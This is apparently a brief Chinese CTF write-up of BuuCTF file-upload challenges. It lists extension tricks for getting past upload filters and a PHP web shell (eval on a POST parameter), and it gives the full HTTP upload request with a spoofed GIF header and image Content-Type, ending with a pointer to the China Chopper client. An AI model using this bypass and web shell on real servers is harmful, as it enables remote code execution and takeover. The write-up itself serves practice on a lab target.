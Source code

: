 ```yaml
---
title: BuuCTF web
tags: []
id: '483'
categories:
  - - CTF
date: 2020-04-15 23:59:27
---
```


## \[极客大挑战 2019\]Upload/\[ACTF2020 新生赛\]Upload

格式绕过

php，php3，php4，php5，phtml，pht

<?绕过

```
<script language='php'>phpinfo();eval($_POST['v']);</script>
```

Content-Type: image/png

POST /upload\_file.php HTTP/1.1
Host: 19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2861896706387660493773565516
Content-Length: 399
Origin: http://19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn
Connection: close
Referer: http://19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn/
Upgrade-Insecure-Requests: 1

-----------------------------2861896706387660493773565516
Content-Disposition: form-data; name="file"; filename="1.phtml"
Content-Type: image/png

GIF98a?
<script language='php'>phpinfo();eval($\_POST\['v'\]);</script>
-----------------------------2861896706387660493773565516
Content-Disposition: form-data; name="submit"

提交
-----------------------------2861896706387660493773565516--

然后用菜刀就可以了